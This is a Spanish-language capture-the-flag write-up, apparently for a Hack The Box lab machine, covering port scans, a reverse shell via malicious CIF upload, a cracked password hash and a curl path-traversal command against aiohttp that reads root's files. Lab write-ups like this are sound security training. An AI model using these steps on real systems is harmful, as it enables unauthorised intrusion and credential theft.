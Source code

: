 **Conectarse a la VPN de HTB**  
`sudo openvpn --config Desktop/lab_a21josperjim.ovpn`  

![VPN config](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241122153549.png)  

**Escaneo de puertos abiertos**  
`nmap -sT -Pn 10.10.11.38`

![Nmap scan](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241122153515.png)  

**Sacar información de los puertos abiertos**  
`nmap -sT -sV -vvv -p 22,5000 -Pn 10.10.11.38` *(solo puertos abiertos)*

![Nmap detailed scan](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241122153619.png)  

**Probamos la IP con el puerto 5000 en el navegador**

![Web page](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241122160118.png)  

Nos permite registrarnos. Tras acceder, hay un dashboard:

![Dashboard](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241122164202.png)  
*Permite subir archivos CIF (Crystallographic Information File).*  

**Explotación de vulnerabilidad en archivos CIF**  
Buscando información, encontramos que estos archivos pueden permitir una *reverse shell*. El archivo a subir es: [Chemistry HTB RS](#).  

**Reverse Shell obtenida**

![Reverse shell](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125160908.png)  

**Exploración de directorios**  
Usamos `ls | grep -P '^[\w\s\.\-\(\)]+$'` para filtrar nombres legibles: 

![Directories](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125161252.png)  

**Base de datos en `/instance`**  
Encontramos hashes de contraseñas:  

![Database](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125161513.png) 

![Hashes](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125161712.png)  

**Descifrado de hash (MD5)**  
Usando herramientas como CrackStation, obtenemos la contraseña: `unicorniosrosados`.  

![Hash cracked](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125161933.png)  

**Acceso al usuario `rosa` y primera flag**  

![User access](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125162037.png) 

![First flag](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125162058.png)  

**Conexión por SSH**  

![SSH login](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241125162814.png)  

**Escaneo de vulnerabilidades con `linpeas.sh`** 

![LinPEAS scan](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127184141.png)  
*Se detectó una vulnerabilidad en la versión del sistema.*  

**Intento de explotación (sin éxito)**  

![Exploit attempt](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127184305.png)
![Exploit attempt](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127184402.png)
![Exploit attempt](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127184654.png)
![Exploit attempt](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127184828.png)

**Puerto 8080 accesible localmente**  

![Local port scan](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127185034.png)  

**Tunel inverso para inspeccionar el servicio**  
`ssh -L 2000:localhost:8080 rosa@10.10.11.38`  

![Tunnel setup](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127190008.png)  

**Vulnerabilidad de *Path Traversal* en `aiohtto/3.9.1`**  
Permite navegar por directorios con `../`:  

![Path traversal](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127191035.png)  

**Explotación con `curl`**  
Usamos:  
`curl -s --path-as-is http://localhost:8080/assets/../../../../root/root.txt`
![root](https://github.com/jose75213/write-up/blob/main/Images/Pasted%20image%2020241127193354.png)  


